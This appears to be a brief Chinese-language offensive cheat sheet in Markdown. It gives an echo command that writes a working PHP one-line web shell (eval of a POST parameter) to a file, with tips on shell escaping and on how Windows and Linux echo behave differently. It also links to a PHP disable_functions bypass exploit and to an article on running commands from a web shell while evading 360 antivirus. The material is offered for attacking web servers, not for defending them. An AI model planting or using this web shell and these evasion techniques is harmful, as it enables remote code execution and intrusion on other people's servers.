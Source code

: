 # 01、echo写入php一句话木马
```
echo "<?php eval(\$_POST['cmd']);?>">1.php
1.php内容如下：
<?php eval($_POST['cmd']);?>

注意1：经过在burp下测试及bash下测试发现，echo "<?php eval($_POST['cmd']);?>">1.php的结果是<?php eval(['cmd']);?>

注意2：Windows下echo "bbb">3.txt时，会将双引号带入文件内容，Linux下echo "bbb">3.txt时，不会将双引号带入文件内容。
```

# 02、php绕过disable_functions
```
https://github.com/mm0r1/exploits/tree/master/php-filter-bypass
```

# 03、webshell下绕过360执行命令
```
Webshell绕过360主动防御执行命令
https://mp.weixin.qq.com/s/OGwo1zoN1LS3aYalZ_PePw
```